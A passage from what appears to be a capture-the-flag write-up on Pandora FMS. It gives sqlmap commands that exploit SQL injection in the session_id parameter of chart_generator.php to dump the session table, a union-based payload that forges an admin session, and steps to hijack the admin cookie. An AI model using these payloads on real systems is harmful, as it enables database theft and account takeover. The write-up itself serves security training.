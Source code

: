 ```bash
sqlmap --url "http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=" --batch --dbms=mysql --proxy 'socks5://127.0.0.1:4141' --technique=E --dbs
... [snip] ...
[18:13:19] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 20.10 or 19.10 (eoan or focal)
web application technology: PHP, Apache 2.4.41
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[18:13:19] [INFO] fetching database names
[18:13:20] [INFO] retrieved: 'information_schema'
[18:13:21] [INFO] retrieved: 'pandora'
available databases [2]:
[*] information_schema
[*] pandora
```

```bash
sqlmap --url "http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=" --batch --dbms=mysql --proxy 'socks5://127.0.0.1:4141' --technique=E -D pandora -T tsessions_php --dump
```

![](/assets/img/posts/pandora/sqlmap-tsessions_php-dump.png)

Here are those session and there decoded values.

Copy admin cookie encode value from "id_session" column and replace "PHPSESSID" value with it using cookie editor and refresh pandora login page.

Or you could use some sql inject payload to set your session as admin without dumping table everytime using `/include/chart_generator.php` parameter `session_id` with sql injection payload.
```
http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=1' union select 'NULL','NULL','id_usuario|s:5:"admin";'-- -
```

And the complete query looks like this
```sql
SELECT * FROM tsessions_php WHERE id_session='1' union select 'NULL','NULL','id_usuario|s:5:"admin";'-- -
```

### File Upload

And here we have admin panel with insecure file upload function
